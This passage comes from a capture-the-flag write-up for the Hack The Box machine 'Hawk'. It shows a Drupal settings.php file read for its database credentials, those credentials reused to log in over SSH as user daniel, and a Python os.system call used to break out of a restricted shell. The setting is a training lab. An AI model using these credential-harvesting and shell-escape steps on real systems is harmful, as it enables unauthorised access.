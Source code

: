 We are root! Grab the _root.txt_ flag.

![](https://miro.medium.com/max/585/1*vSyn2AqVgzcDQBYUF-F_7Q.png)

## Extra Content <a id="0ffe"></a>

After rooting the machine, I watched [ippsec’s video](https://www.youtube.com/watch?v=UGd9JE1ZXUI) and discovered two things that I did differently.

**Own the user Daniel**

It turns out the _settings.php_ file for the Drupal application contained credentials to the database.

```text
www-data@hawk:/tmp$ cat /var/www/html/sites/default/settings.php...
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupal',
      'password' => 'drupal4hawk',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
...
```

Daniel, like many users, reused these credentials for his SSH account.

```text
ssh daniel@10.10.10.102
```

![](https://miro.medium.com/max/701/1*37iDn59gfMAgOfU9EQqSnA.png)

This gives us a python shell, instead of a normal bash shell. To break out of the shell, run the following code.

```text
import os
os.system("/bin/bash")
```

The above code simply invokes a bash shell.

![](https://miro.medium.com/max/496/1*64wKMZ73ejhrp7blRbwOQQ.png)

**Manual Exploitation of the H2 Database**
